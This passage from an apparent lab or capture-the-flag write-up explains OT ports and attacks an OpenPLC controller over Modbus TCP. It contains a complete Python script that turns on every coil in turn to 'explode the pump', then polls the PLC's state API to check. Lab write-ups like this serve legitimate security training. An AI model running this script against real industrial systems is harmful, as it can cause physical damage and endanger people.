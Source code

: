 I then turned my attention to ports `502`, `102`, and `44818`, which are commonly used in the OT (Operational Technology) domain—specifically, Modbus TCP, Siemens S7 (proprietary), and Ethernet/IP (Rockwell), respectively.

OpenPLC typically communicates via Modbus TCP because it's open and widely supported. While OpenPLC does support S7 and Ethernet/IP through additional libraries, Modbus is the easiest to interact with. So, I began inspecting the Modbus interface.

Modbus primarily uses the concept of "coils." Coils are boolean variables (ON/OFF). To explode the pump, I had the idea to turn all the coils ON.

To do this, I connected to the PLC on port `502` using a Python library called `pymodbus`, which enables Modbus communication:

```bash
pip install pymodbus
```

The script I wrote:

```python
from pymodbus.client import ModbusTcpClient
import requests
import time

# IP of the PLC
PLC_IP = "10.10.180.166"

# Modbus TCP port (default: 502)
MODBUS_PORT = 502

# Connect to the PLC over Modbus TCP
client = ModbusTcpClient(PLC_IP, port=MODBUS_PORT)
connection = client.connect()

if connection:
    print("Connected to PLC on Modbus TCP.")
    coil = 0
    while True:
        print(f"Attempting to writing to coil at address {coil}...")
        result = client.write_coil(coil, True)  # True means ON (1)
        
        if result:
            print(f"Successfully write to coil at address: {coil}.")
        else:
            print(f"Failed to write to coil at address {coil}.")
        
        time.sleep(2)
        
        # Verify the status of the coil after writing (check if it's ON)
        status = client.read_coils(coil, count=1) 
        print(requests.get(f"http://{PLC_IP}/api/state").text)  # fetch the api to see if the pump exploded
        print(f"Coil at address {coil} status: {status.bits[0]}")  # 1 means ON, 0 means OFF
        coil += 1 
    
else:
    print("Failed to connect to PLC on Modbus TCP.")

# Close the connection
client.close()
```
Note: I used `requests` to poll the `/api/state` endpoint to see if the pump's state changed.
